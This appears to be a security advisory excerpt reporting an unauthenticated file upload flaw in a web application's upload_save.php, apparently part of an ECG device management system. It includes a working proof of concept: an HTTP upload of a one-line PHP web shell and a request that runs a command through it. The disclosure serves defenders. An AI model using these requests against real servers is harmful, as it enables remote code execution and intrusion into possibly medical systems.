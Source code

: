 ```
	<tr>
		<th class="tabResultsHdr">#</th>
		<th class="tabResultsHdr"><span id='6747'>File</span></th>
		<th class="tabResultsHdr"><span id='6756'>Select File</span></th>
	</tr>
		<tr class="tabResultsAlt">
		<td>1</td>
		<td>atredisx.php</td
```


### Unauthenticated File Upload / Unvalidated File Upload

Code in the file `/upload/upload_save.php` is used to upload files to the server. This path does not require authentication. Additionally, files are not validated for content and can be saved with an arbitrary extension. A session variable is used to build a directory path when saving files, if a session has not been initiated, this upload path results in files being saved in a child of `/upload`. As a result, it is possible for an attacker to upload and execute PHP. If a session is initiated, files are saved into a directory that is not directly accessible by the webserver, however, other issues present in the application make it possible to execute this code.

Upload file:
```
POST /upload/upload_save.php HTTP/1.1
Host: example.com
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 343
Content-Type: multipart/form-data; boundary=6798320a0d2907d1ea481e301c098a4b

--6798320a0d2907d1ea481e301c098a4b
Content-Disposition: form-data; name="fileType"

Philips Touch/Trim
--6798320a0d2907d1ea481e301c098a4b
Content-Disposition: form-data; name="files[]"; filename="lugqmrbmhxun.php"
Content-Type: application/octet-stream

<? echo system($_GET['ejibldxukmfl']); ?>
--6798320a0d2907d1ea481e301c098a4b--
```

Call PHP:
```
GET /upload/mods/ecg/raw_ecg-hp_xml/lugqmrbmhxun.php?ejibldxukmfl=whoami HTTP/1.1
Host: example.com
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```
